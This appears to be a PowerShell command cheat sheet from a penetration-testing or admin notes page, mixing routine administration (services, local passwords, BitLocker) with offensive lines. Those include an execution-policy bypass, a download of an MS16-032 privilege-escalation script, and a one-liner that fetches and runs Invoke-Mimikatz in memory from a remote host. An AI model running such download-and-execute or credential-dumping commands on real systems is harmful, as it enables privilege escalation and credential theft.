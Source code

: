 Powershell Commands

Run Powershell Commands from Command Prompt


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
powershell -c “<Command to run>”
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Run Powershell File (.ps1) from Command Line

~~~
powershell -ExecutionPolicy bypass -f "powershell_file.ps1" -parameter data
~~~


Download File/Executable from HTTP Server


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.7.30/Windows/ms16-032.ps1','MS16-032.ps1')"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Download File/Executable from HTTP Server and Execute in Memory with Arguments


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.19.55/Windows/Powershell/Nishang/Gather/Invoke-Mimikatz.ps1');Invoke-Mimikatz
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Run Executable As Its Own Process

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Start-Process "shell-name.exe"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Determining Available Tokens for Impersonation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
whoami /priv
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Stopping and Starting Services

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sc stop <servicename>
sc start <servicename>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Querying Service Configurations

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sc qc <servicename>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Querying Service States

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sc query <servicename>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Setting Password as Convert to Secure String for use with Setting a DomainUserPassword

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$UserPassword=ConvertTo-SecureString ‘P@ssw0rd1234’ -AsPlainText -Force
Set-DomainUserPassword -Identify <DomainUserAccount> -AccountPassword $UserPassword
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Parameters within scripts

~~~
<#
Sets parameters for scripting that can be used in the command line
.ex
script.ps1 -Variable1 V1Data -Variable2 V2Data -Variable3 V3Data
#>
param ($Variable1, $Variable2, $Variable3)
~~~

Setting Password for Local Users

~~~
$Password = ConvertTo-SecureString $Pass -AsPlainText -Force
$UserAccount = Get-LocalUser -Name "user"
$UserAccount | Set-LocalUser -Password $Password
~~~

Renaming Computer

~~~
Rename-Computer -NewName $CompName
~~~

Setting Bitlocker Key and then Creating a file with the recovery key information

~~~
#Set Bitlocker key
Enable-BitLocker -MountPoint "C:" -RecoveryPasswordProtector -EncryptionMethod XtsAes256 -UsedSpaceOnly -SkipHardwareTest
#Create text file with Recovery Key Information
$BVol = Get-BitLockerVolume -MountPoint "C"
$Bvol.KeyProtector > C:\Users\user\Documents\recovery.txt
~~~
